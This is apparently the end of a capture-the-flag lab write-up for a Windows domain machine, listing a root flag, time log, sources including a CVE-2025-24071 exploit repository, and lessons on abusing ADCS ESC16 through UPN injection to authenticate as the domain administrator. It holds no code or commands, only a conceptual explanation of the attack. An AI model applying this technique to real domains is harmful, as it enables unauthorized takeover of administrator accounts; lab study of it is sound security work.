

root.txt: 569935a4461fc1f33590356e0025176e

End: 12:30 aug 31

----
----
#### Post testing

##### Time frame
Start: 21:00 aug 30
End: 23:05 aug 30
Start: 10:40 aug 31
End: 12:30 aug 31

Start: 2026-08-30 21:00 - End: 2026-08-31 12:30

Total Time (Testing): 3h 55min

##### Hint
- Debug missmatch when authenticated with administrator certificate

##### Sources
- CVE malicious file exploit: https://github.com/ThemeHackers/CVE-2025-24071/
- ESC16 abuse: https://www.hackingarticles.in/adcs-esc16-security-extension-disabled-on-ca-globally/
- Debug cert auth naming missmatch: https://www.youtube.com/watch?v=KvUC7bakm-E. Min 35

##### Lesson

- ESC16 is a condition: the CA is configured to omit the SID security extension from the certificates it issues (the OID is in `DisableExtensionList`), CA-wide.
- UPN injection is the technique used to take advantage of ESC16 presence and abuse the permission (GenericWrite/All) over an account with enrollment rights over a User/Client Auth template.
- The error when using the certificate after injecting administrator UPN: By the time using the cert, 2 accounts had administrator UPN (the real one and the one I just injected), so DC seeing 2 identical names made that conflict. After renaming the account back to its normal UPN, DC now sees one administrator (the real one) and points to it, and the cert is untouched and preserves its UPN written, so authentication as adminitrator works.
- DC is the final destination and the one that makes the auth possible, CA is checking the template/config/permissions and crafts the cert.
